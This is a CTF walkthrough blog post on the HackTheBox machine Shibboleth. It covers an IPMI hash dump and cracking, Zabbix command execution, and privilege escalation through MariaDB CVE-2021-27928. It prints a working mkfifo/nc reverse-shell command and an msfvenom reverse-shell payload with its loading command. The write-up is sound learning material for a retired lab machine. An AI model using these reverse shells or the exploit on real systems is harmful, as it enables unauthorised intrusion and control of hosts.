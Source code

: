 ```yaml
---
title: "HackTheBox: Shibboleth Walkthrough"
date: 2022-04-22T17:36:59+02:00
tags: ['hackthebox', 'ctf']
draft: false
---
```


# Introduction

This is my first walkthrough for a HackTheBox machine. It's not the first
machine I've done, though. But as Shibboleth is now "retired", it is allowed
to publish walkthroughs. I have decided not to publish any passwords,
because that would spoil the fun (and not add anything in terms of learning).
I'll rather focus on my chain of thought to go through this challenge.

# Foothold

The very first scan on every machine I do is a port scan using nmap. Depending on
the results, I continue to directory and/or vhost (subdomain) scanning.

First an nmap scan only reveals `80/tcp` as an open port. I have yet to encounter a machine
where this port is not open, as every machine has some kind of "landing page".
In this case, where a tcp port scan does not reveal anything interesting,
it's not a bad idea to also scan udp ports:

```plain
Discovered open port 623/udp on 10.10.11.124
```

Now that's something! A quick search reveals that `623/udp` is the default port for IPMI,
which is some kind of remote management interface.

Searching a bit further, we find common vulnerabilities for IPMI. One that
sounds especially promising is dumping the hashes. Conveniently, the metasploit framework
comes with a payload for this task.

```plain
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:25b6d5c382010...
```

When obtaining a hash, and it's an "insecure" one (that is, not bcrypt or similar),
I put it into hashcat right away. In this case, we need to pick the right
hash type. My hashcat version suggested three, and `-m 7300` is the correct one in this case.
I'm using the "rockyou" wordlist, which also yields a result in this case.

Now we have a username and password, but what next? I tried playing around
with IPMI a bit more - there seem to be ways to get a reverse shell, but those
were not working with this IPMI instance.

But, we are also not done with scanning! Let's scan for vhosts next:

```plain
Found: monitor.shibboleth.htb (Status: 200) [Size: 3686]
Found: monitoring.shibboleth.htb (Status: 200) [Size: 3686]
Found: zabbix.shibboleth.htb (Status: 200) [Size: 3686]
```

Again, this looks promising. All vhosts point to the same Zabbix instance.
Let's login with the credentials we obtained earlier!

# User

We now have adminisrator access to Zabbix. The installed Zabbix version 5.0.17
does not have any known vulnerability. But, Zabbix is a monitoring software
and as such for sure has the capability to execute commands on the machines
it is monitoring. Time to RTFM :scream:

Under *Configuration > Items > Item types > Zabbix agent* we will find:
> `system.run[command,<mode>]` - Run specified command on the host.

Exactly what we are looking for! Note that this seems to be an intentional
misconfiguration on this machine, because the docs also say:

> All `system.run[*]` items (remote commands, scripts) are disabled by default, even when no deny keys are specified


We now know that we can create an "Item" for the `shibboleth.htb` host in
the Zabbix UI.
I tried a lot of different reverse shell commands until I finally found one which
was working in this context:

```plain
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f,nowait]
```

Click on *Test > Get Value and Test*. We now have a reverse shell for user `zabbix`.


```plain
$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
$ ls -la /home
total 12
drwxr-xr-x  3 root     root     4096 Oct 16  2021 .
drwxr-xr-x 19 root     root     4096 Oct 16  2021 ..
drwxr-xr-x  3 ipmi-svc ipmi-svc 4096 Oct 16  2021 ipmi-svc

```

We also see the only entry in `/home` is for user `ipmi-svc`, so we now have to escalate to this
user. We *do* have a password, so try the straight-forward way:

```plain
$ su ipmi-svc
Password: <password>
id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
```

Done - we can read the user flag!

# Root

Our next step is to gain root access. If there is no obvious way forward,
running LinPEAS usually gives us a hint: On this machine, there is a config
file `/etc/zabbix/zabbix_server.conf`, which is owned by root - and readable by the current user!
In this file, we will find credentials for a database server. Let's try them out:


```plain
$ mysql -u zabbix -p<password> zabbix

MariaDB [zabbix]> select version();
+----------------------------------+
| version()                        |
+----------------------------------+
| 10.3.25-MariaDB-0ubuntu0.20.04.1 |
+----------------------------------+
1 row in set (0.000 sec)
```

Looking up vulnerabilities for this MariaDB version leads to `CVE-2021-27928`.
We can use metasploit again, this time to build a payload:

```plain
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4242 -f elf-so -o payload.so
```

Connect to the MariaDB server, execute the payload:

```plain
mysql -u zabbix -p<password> -e 'SET GLOBAL wsrep_provider="/tmp/payload.so";'
```

# Conclusion and Learnings

I really liked the Shibboleth machine. Probably because it wasn't "the usual
web stuff". Most of the time I needed was to understand
how Zabbix works, and then to get the reverse shell working. This is also
a key learning for me: If you "know" you are on the right track, but it's
not working, try another way. This machine was the first time I used
(and needed) a "mkfifo reverse shell". Furthermore, I learned about `msfvenom`.